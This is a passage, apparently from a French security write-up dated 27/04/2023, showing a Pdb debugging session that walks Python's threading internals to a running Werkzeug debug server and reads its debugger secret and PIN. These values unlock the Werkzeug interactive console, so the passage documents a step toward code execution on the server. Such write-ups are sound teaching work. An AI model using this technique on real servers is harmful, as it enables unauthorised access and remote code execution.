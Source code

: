 On retrouve le thread du serveur :

```python
140263224297152: <Thread(Thread-1 (serve_forever), started daemon 140263224297152)>
```

On peut continuer notre exploration :

```python
(Pdb) dir(sys.modules['threading']._active[140263224297152])
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_args', '_bootstrap', '_bootstrap_inner', '_daemonic', '_delete', '_ident', '_initialized', '_invoke_excepthook', '_is_stopped', '_kwargs', '_name', '_native_id', '_reset_internal_locks', '_set_ident', '_set_native_id', '_set_tstate_lock', '_started', '_stderr', '_stop', '_target', '_tstate_lock', '_wait_for_tstate_lock', 'daemon', 'getName', 'ident', 'isDaemon', 'is_alive', 'join', 'name', 'native_id', 'run', 'setDaemon', 'setName', 'start']

(Pdb) sys.modules['threading']._active[140263224297152]._target
<bound method BaseWSGIServer.serve_forever of <werkzeug.serving.ThreadedWSGIServer object at 0x7f9194246750>>
```

Et voilà, nous avons localisé `BaseWSGIServer.serve_forever`.

Si on creuse un petit peu plus :

```python
(Pdb) dir(sys.modules['threading']._active[140263224297152]._target)
['__call__', '__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__func__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__self__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__']

(Pdb) dir(sys.modules['threading']._active[140263224297152]._target.__self__)
['RequestHandlerClass', '_BaseServer__is_shut_down', '_BaseServer__shutdown_request', '__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__', '__eq__', '__exit__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_handle_request_noblock', '_threads', 'address_family', 'allow_reuse_address', 'allow_reuse_port', 'app', 'block_on_close', 'close_request', 'daemon_threads', 'fileno', 'finish_request', 'get_request', 'handle_error', 'handle_request', 'handle_timeout', 'host', 'log', 'log_startup', 'multiprocess', 'multithread', 'passthrough_errors', 'port', 'process_request', 'process_request_thread', 'request_queue_size', 'serve_forever', 'server_activate', 'server_address', 'server_bind', 'server_close', 'service_actions', 'shutdown', 'shutdown_request', 'socket', 'socket_type', 'ssl_context', 'timeout', 'verify_request']
```

Voilà qui est intéressant 👀👀👀👀

```python
(Pdb) sys.modules['threading']._active[140263224297152]._target.__self__.app
<werkzeug.debug.DebuggedApplication object at 0x7f9193c3aad0>

(Pdb) sys.modules['threading']._active[140263224297152]._target.__self__.app.secret
'f9OHRnZYhJq5sFAkV7aR'

(Pdb) sys.modules['threading']._active[140263224297152]._target.__self__.app.pin
'133-978-663'

sys.modules['threading']._active[140263224297152]._target.__self__.app.frames
{...}
```


[//]: <> (Wrote By Vozec 27/04/2023)